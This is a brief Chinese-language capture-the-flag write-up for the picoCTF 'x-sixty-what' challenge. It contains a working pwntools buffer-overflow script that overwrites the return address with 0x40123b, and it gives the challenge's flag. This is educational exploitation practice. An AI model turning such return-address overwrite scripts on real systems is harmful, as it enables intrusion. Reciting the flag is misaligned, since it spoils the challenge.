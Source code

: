 # PicoCTF - x-sixty-what
## Source code
:::spoiler
```cpp=

```
:::
## Recon
這一題有點奇怪，沒有想像中簡單，看起來就是一個簡單的return 2 function的問題，但是看了objdump的flag function原本應該是0x401236，但是會友segmentation fault，看了其他的WP[^x_sixty_what_WP]，發現應該return到0x40123b，不太知道為甚麼
* 第一張是return 2 0x401236
![](https://hackmd.io/_uploads/Bk2PZ_0ch.png)

* 第二張是return 2 0x40123b
    ![](https://hackmd.io/_uploads/SymO-uAqn.png)

## Exploit
1. 用動態的方式看offset
$$
0x7fffffffd758 - 0x00007fffffffd710 = 0x48
$$
```python=
from pwn import *

r = remote('saturn.picoctf.net', 58166)
# r = process('./vuln')
context.arch = 'amd64'

raw_input()
print(r.recvline().strip().decode())

payload = b'a'*0x48 + p64(0x40123b)
print(payload)
r.sendline(payload)

r.interactive()
```

Flag: `picoCTF{b1663r_15_b3773r_e79d5a75}`
## Reference
[^x_sixty_what_WP]:[x-sixty-what WP](https://ctftime.org/writeup/33199)